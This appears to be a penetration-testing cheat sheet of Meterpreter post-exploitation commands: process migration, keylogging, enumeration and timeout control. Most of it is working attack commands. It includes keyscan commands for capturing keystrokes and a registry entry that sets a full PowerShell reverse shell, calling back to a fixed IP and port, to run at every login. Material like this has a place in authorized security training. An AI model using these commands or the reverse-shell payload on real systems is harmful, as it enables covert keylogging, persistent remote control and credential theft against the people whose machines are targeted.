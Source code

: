 ## <mark style="color:red;">Process Migration</mark>

```
migrate -h
 migrate [pid]
 migrate -N [process name]
```

## <mark style="color:red;">Keylogger</mark>

#### migrate to explorer.exe (for better performance)

```
keyscan_start
keyscan_dump
keyscan_stop
```

## <mark style="color:red;">Dig Info and Enumeration</mark>

net info, pass hashes, registry, etc.

```
run scraper   
run winenum
```

## <mark style="color:red;">Interact with the Registry</mark>

```
reg -h
```

example:

#### set a registry to run powershell reverse shell whenever the user logs in:

```
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v -Power -d "powershell -ep bypass -c $client = New-Object System.Net.Sockets.TCPClient('192.168.56.1',9999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## <mark style="color:red;">Timeout Control</mark>

```
get_timeouts

#  set communication timeout to 900 secs
set_timeouts -c 900
```
